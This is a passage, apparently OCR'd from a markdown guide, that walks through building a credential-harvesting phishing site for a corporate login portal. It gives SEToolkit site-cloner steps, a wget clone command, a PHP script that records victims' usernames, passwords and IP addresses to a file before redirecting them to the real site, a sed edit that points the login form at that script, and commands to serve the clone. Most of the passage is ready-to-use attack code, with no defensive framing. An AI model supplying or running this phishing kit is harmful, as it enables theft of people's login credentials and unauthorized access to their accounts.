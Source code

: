    Using SEToolkit:
   ```bash
   sudo setoolkit
   # Select: 1) Social-Engineering Attacks
   # Select: 2) Website Attack Vectors
   # Select: 3) Credential Harvester Attack Method
   # Select: 2) Site Cloner
   # Enter your IP address when prompted
   # Enter the URL to clone (e.g., https://portal.lumoninc.com)
   ```

   Alternative with wget:
   ```bash
   wget -r -l 1 -k https://portal.lumoninc.com
   ```

2. **Modify the cloned website to capture credentials**

   Create a simple PHP script to log submitted credentials:
   ```bash
   cat > credentials.php << 'EOF'
   <?php
   $file = 'captured_creds.txt';
   $username = $_POST['username'];
   $password = $_POST['password'];
   $ip = $_SERVER['REMOTE_ADDR'];
   $date = date('Y-m-d H:i:s');
   
   $data = "Date: $date\nIP: $ip\nUsername: $username\nPassword: $password\n\n";
   file_put_contents($file, $data, FILE_APPEND);
   
   // Redirect to the real site after capturing credentials
   header('Location: https://portal.lumoninc.com');
   exit();
   ?>
   EOF
   ```

3. **Edit the HTML form** in the cloned index.html to submit to your credentials.php script:
   
   ```bash
   sed -i 's|action="[^"]*"|action="credentials.php"|g' index.html
   ```

4. **Start the web server** to host your phishing site:

   Using Apache:
   ```bash
   sudo service apache2 start
   # Copy files to /var/www/html/
   sudo cp -r * /var/www/html/
   ```

   Using Python's built-in server (for testing):
   ```bash
   python3 -m http.server 80
   ```
